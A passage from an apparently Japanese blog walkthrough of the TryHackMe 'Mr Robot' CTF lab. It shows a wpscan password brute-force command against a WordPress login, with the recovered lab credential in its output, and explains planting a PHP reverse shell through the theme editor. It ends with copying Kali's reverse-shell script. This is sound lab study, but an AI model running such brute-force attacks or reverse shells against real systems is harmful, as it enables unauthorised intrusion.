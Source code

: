 パスワードについてもブルートフォース攻撃で調べられそうです。今回はこのサイトが WordPress のものとわかっているので、これに特化した `wpscan` というツールを使います。

```console
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ wpscan --url http://10.10.203.195 -U Elliot -P fsocity_uniq.dic -t 32
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
(中略)

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                                 
All Found                                                                                                                      
Progress Time: 00:00:49 <=====================================                                > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

パスワードが分かりました。得られた認証情報でログインしてみます。

<img src="/images/2024/20241030a/MrRobotCTF_Elliot_Login.png" alt="MrRobotCTF_Elliot_Login.png" width="1200" height="621" loading="lazy">

ログインに成功しました！まずは WordPress のサイトへの侵入成功です。画面で触れる箇所が多く、調べたら色々と情報や脆弱性が出てきそうです。今回ログインしたユーザは Elliot Alderson さんという方のようです。メールアドレスや顔写真などの個人情報も出てきました。怖いですねぇ。

次は更に内部に入りこむべく、この WordPress サーバ（OS側）への侵入を試みます。WordPress 上を探索してみると、`Appearance > Editor` に php のコードが色々とあり、編集ができることに気が付きます。リバースシェルを仕込んで実行させることで、シェルを取得できそうです。

<img src="/images/2024/20241030a/MrRobotCTF_editor.png" alt="MrRobotCTF_editor.png" width="1200" height="625" loading="lazy">

::: note info
**リバースシェル**は、ターゲットから自分のローカルマシンに向けた接続を行う仕組みです。サーバは基本的に外部から内部への通信は厳しく制限しますが、内部から外部への通信は比較的ゆるい場合が多いです。
そこで、ローカルマシンではあるポート（今回は`12345`） で接続を Listen しておきます。ターゲットマシンに侵入後、リバースシェルのプログラムにこのIP・ポートへ接続する設定をして、このプログラムが実行されるように仕込みます。プログラムが実行されると、ローカルマシンへの接続が発生して、ターゲットマシンのシェルを取得できます。
:::

Kali にもともとある php のリバースシェルのスクリプトをコピーしてきます（ちなみに私は php のコードは読めません...）

```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
